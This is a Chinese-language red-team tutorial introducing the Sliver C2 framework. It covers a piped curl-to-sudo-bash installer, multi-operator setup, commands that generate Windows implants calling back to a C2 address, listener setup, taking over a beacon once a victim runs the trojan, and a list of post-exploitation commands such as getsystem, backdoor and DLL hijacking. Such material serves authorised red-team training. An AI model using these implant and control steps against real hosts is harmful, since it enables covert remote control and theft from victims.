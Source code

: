 ```yaml
---
title: Sliver（一）：Sliver基础
tags: Red Team
---
```


# 介绍

Sliver是一个开源的C2项目，用Golang开发。Sliver的操作与Metasploit的操作类似，但它支持多用户协同。与Cobalt Strike相比，它支持Macos、Windows、Linux客户端以及implant的生成，但它不具备GUI界面，官方提供了一个GUI项目，但是目前已经废弃。项目地址：https://github.com/BishopFox/sliver。

总体来说作为CS的开源替代品是非常好的选择，且二开相对简单，适合作为个人或团队的定制C2框架。

# 安装

在Linux服务器中执行 `curl https://sliver.sh/install|sudo bash` 即可完成安装，安装后主要会生成sliver-server、sliver-client和sliver三个可执行程序。

sliver-server在root目录下，是服务端程序，如果要实现多用户操作，必须启动此程序，后续新建用户等操作都需要在此程序下操作`sudo /root/sliver-server` 。

![Untitled](Sliver/Untitled.png)

用户端可以直接去github上下载对应架构的客户端https://github.com/BishopFox/sliver/releases。

sliver在终端模式下是具备自动补全功能的，因此可以多使用Tab。

# 多用户模式

![Untitled](Sliver/Untitled%201.png)

在Server端中新建用户：`new-operator --name client -l 198.19.249.24 -p 20000` 

![Untitled](Sliver/Untitled%202.png)

输入`multiplayer -l 20000` 启动指定端口的多用户模式。

将配置文件复制到client机器的~/.sliver-client/configs目录中，再启动sliver-client。

![Untitled](Sliver/Untitled%203.png)

# Beacons & Sessions

Sliver在远程控制上提供了Beacon模式和Session模式。

Session模式下，Sliver会和受控主机建立持续的连接，执行的命令会立刻返回结果，方便但容易被发现。

Beacon模式下，Sliver与Cobalt Strike一样，有休眠时间，执行的命令会排队，等待受控主机一定时间后执行并返回结果，相对较为隐蔽。

## implant生成

Sliver目前总共支持五种协议：mtls、http/s、dns、wireguard。

生成命令：

```jsx
generate beacon --arch amd64 --os windows --mtls 198.19.249.24:3306 --save ./test.exe 
```

如果想生成的是Session模式，去掉beacon即可。

生成时需要记住很多参数，为了方便，Sliver提供了Profiles来简化这个过程：

```jsx
profiles new --mtls 198.19.249.24:3306 --os windows --arch amd64 --format exe windows_default
```

![Untitled](Sliver/Untitled%204.png)

需要使用时执行`profiles generate --save ./test.exe  windows_default` 。

输出`implants`可以看到所有生成的implant：

![Untitled](Sliver/Untitled%205.png)

## 监听

开启监听只需要使用对应implant的协议名 -l 端口号即可

```jsx
mtls -l 3306
```

![Untitled](Sliver/Untitled%206.png)

使用jobs可以看到当前开启的监听任务：

![Untitled](Sliver/Untitled%207.png)

job1是sliver多用户模式下开启的grpc端口，用于多用户协同操作，job2就是刚刚开启的监听端口。

## 上线

在受控主机上点击木马后，server端和client端都会接到消息：

![Untitled](Sliver/Untitled%208.png)

输入`beacons`可以看到上线的beacon的信息：

![Untitled](Sliver/Untitled%209.png)

`use`命令可以进入该beacon，进入后可以执行`interactive` 转换出一个session，由于需要等待休眠时间，所以需要等待一会儿。

![Untitled](Sliver/Untitled%2010.png)

转换完成后再执行`sessions` 可以看到相关信息：

![Untitled](Sliver/Untitled%2011.png)

`use`命令可以进入该session。

## 命令列表

```jsx
Sliver:
=======
  cat                查看文件
  cd                 切换目录
  chmod              修改文件或文件夹权限
  chown              修改文件或文件夹所属
  chtimes            修改文件的创建时间和修改时间
  close              不关闭进程的情况下关闭session
  download           下载文件
  execute            执行程序
  execute-shellcode  sliver进程里执行shellcode
  extensions         管理扩展
  getgid             获取 GID
  getpid             获取 session pid
  getuid             获取 session UID
  ifconfig           查看网络配置
  info               查看session信息
  interactive        beacon生成session
  kill               Kill session
  ls                 列出当前目录列表
  memfiles           列出当前 memfiles（unknown）
  mkdir              创建目录
  msf                在当前进程下执行 MSF payload
  msf-inject         往一个进程中注入 MSF payload
  mv                 文件移动或重命名
  netstat            输出网络连接信息
  ping               不使用ICMP，给木马发送回环消息
  pivots             给存活的session列出pivots（unknown）
  portfwd            TCP端口转发
  procdump           Dump进程内存
  ps                 列出进程列表
  pwd                打印当前目录
  reconfig           beacon/session恢复配置
  rename             给beacon/session重命名
  rm                 删除文件或目录
  rportfwd           反向端口转发
  screenshot         屏幕截图
  shell              开启shell
  shikata-ga-nai     二进制shellcode编码器
  sideload           在远程进程中加载和执行共享对象(共享库/DLL)
  socks5             socks5代理
  ssh                在远程主机上执行ssh命令
  terminate          在远程主机上关闭一个进程
  upload             上传文件
  whoami             获取当前用户
```

### Windows特定命令

```jsx
Sliver - Windows:
=================
  backdoor          使用shellcode感染一个远程的文件
  dllhijack         DLL劫持
  execute-assembly  在子进程中加载和执行.NET程序集
  getprivs          获取当前权限
  getsystem         获取一个NT AUTHORITY\SYSTEM的shell
  impersonate       模拟已登录的用户
  make-token        使用指定的凭据创建新的登录会话
  migrate           进程迁移
  psexec            在远程目标上启动一个sliver服务
  registry          操作windows注册表
  rev2self          Revert to self: lose stolen Windows token
  runas             在指定用户的上下文中运行一个新进程
  spawndll          在远程进程中加载和执行反射DLL
```